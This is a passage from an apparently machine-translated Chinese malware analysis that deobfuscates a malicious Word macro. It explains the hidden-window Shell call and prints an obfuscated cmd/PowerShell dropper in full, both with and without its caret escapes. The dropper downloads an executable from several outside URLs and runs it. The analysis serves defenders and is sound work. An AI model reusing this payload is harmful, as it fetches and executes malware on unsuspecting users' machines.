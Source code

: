 所以基本上，它要把一个给定的字符代码翻译成它的字符串表示。在这种情况下，我们得到`C`和`M`。

我将剩余宏的函数和变量重命名为更准确的描述，如下所示:

现在我们已经有了相当多的结构，执行流程也很清晰。我们的`AutoOpen`用`concatenated payload`的值调用我们的`Execute`函数。然而我们不知道`QrQBzLuD`的目的是什么。它的值为`0`，并作为第二个参数与我们的命令字符串一起传递给`Shell`。我们再次求助于微软 Word VBA 文档。`Shell`呼叫定义如下:

```
Shell( *pathname*, [ *windowstyle* ] )
```

可选的`windowstyle`参数解释如下:

> 可选。**Variant**(**Integer**)对应于程序将要运行的窗口的样式。

查看选项，我们看到给定值`0`意味着

> vbHide 0 窗口被隐藏，焦点传递到隐藏的窗口

因此，我们的命令执行将在一个隐藏的窗口中执行，而不为那些无意中启用了宏的用户所知。我们最终的 VBA 有效载荷，完全去模糊，看起来是这样的:

## 命令行负载

现在我们已经到达了这个有效负载的本机 Windows shell 命令执行部分。

```
CMd /V^:^ON/C"^s^e^t lN=^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^}^}^{^hc^t^ac^}^;^k^a^er^b^;^ir^j^$^ ^m^etI^-^e^k^ovn^I;)^ir^j^$^ ^,^fB^J^$(^e^l^i^F^d^a^o^ln^wo^D^.^i^w^Y^$^{^yr^t^{)^B^Kj^$ n^i^ ^f^B^J^$(^hc^a^er^o^f;^'^e^x^e^.^'^+^U^t^L^$^+^'^\'+c^i^l^b^u^p^:vne^$^=^ir^j^$^;^'^4^9^3^'^ ^=^ ^U^t^L^$^;)^'^@^'(^t^i^l^p^S^.^'^Q/^ur^.^en^g^i^s^e^dn^a^l^.n^a^m^i^d^.^w^w^w//^:^p^t^t^h@yn/^t^i^.e^l^o^ic^s^iv^e^l^l^ed^on^i^dra^i^g^l^i//^:^p^t^t^h^@^g/^k^u.^oc^.^s^ec^ivr^e^s^k^e^p^sn^i//^:^p^t^t^h^[@C](http://twitter.com/C)/^m^oc^.^l^a^g^o^f^j//^:^p^t^t^h@^XC^s^U/^e^b^.^yn^a^j//^:^p^t^t^h^'^=^B^K^j^$^;^tn^e^i^lC^b^e^W^.^t^eN^ ^tc^e^j^b^o^-^w^en^=^i^w^Y^$^ ^l^l^e^h^sr^e^w^o^p&&^f^or /^L %^p ^in (^3^4^9^;^-^1^;^0)^d^o ^s^e^t ^l^I=!^l^I!!lN:~%^p,1!&&^i^f %^p ^e^q^u ^0 c^a^l^l %^l^I:^~^-^3^5^0%"
```

为了开始对这个有效载荷进行反混淆，我们做了一点研究。我有一种预感，脱字符是转义字符，不会影响它们穿插的明文。根据快速搜索，这一假设成立！

> ^符号(也称为插入符号或扬抑符号)是批处理脚本中的转义字符。当使用它时，下一个字符被解释为普通字符。

所以这是更多的混淆视听。我们可以安全地移除护板而不影响有效载荷。这里我们又有了有效载荷，更接近于明文:

```
CMd /V:ON/C”set lN= }}{hctac};kaerb;irj$ metI-ekovnI;)irj$ ,fBJ$(eliFdaolnwoD.iwY${yrt{)BKj$ ni fBJ$(hcaerof;’exe.’+UtL$+’\’+cilbup:vne$=irj$;’493' = UtL$;)’@’(tilpS.’Q/ur.engisednal.namid.www//:ptth@yn/ti.eloicsivelledonidraigli//:ptth@g/ku.oc.secivreskepsni//:ptth@C/moc.lagofj//:ptth@XCsU/eb.ynaj//:ptth’=BKj$;tneilCbeW.teN tcejbo-wen=iwY$ llehsrewop&&for /L %p in (349;-1;0)do set lI=!lI!!lN:~%p,1!&&if %p equ 0 call %lI:~-350%”
```

乍一看我们可以看到命令标志，一些变量被设置，混乱的 squiglys，和`llehsrewop`(字符串反转谁？).我把它分解成有效载荷的独立功能步骤，这样可读性会更好一些。

```
CMd /V:ON/Cset lN= }}{hctac};kaerb;irj$ metI-ekovnI;)irj$ ,fBJ$(eliFdaolnwoD.iwY${yrt{)BKj$ ni fBJ$(hcaerof;’exe.’+UtL$+’\’+cilbup:vne$=irj$;’493' = UtL$;)’@’(tilpS.’Q/ur.engisednal.namid.www//:ptth@yn/ti.eloicsivelledonidraigli//:ptth@g/ku.oc.secivreskepsni//:ptth@C/moc.lagofj//:ptth@XCsU/eb.ynaj//:ptth’=BKj$;tneilCbeW.teN tcejbo-wen=iwY$ llehsrewop&&for /L %p in (349;-1;0)
 do set lI=!lI!!lN:~%p,1! && 
 if %p equ 0 
 call %lI:~-350%
```
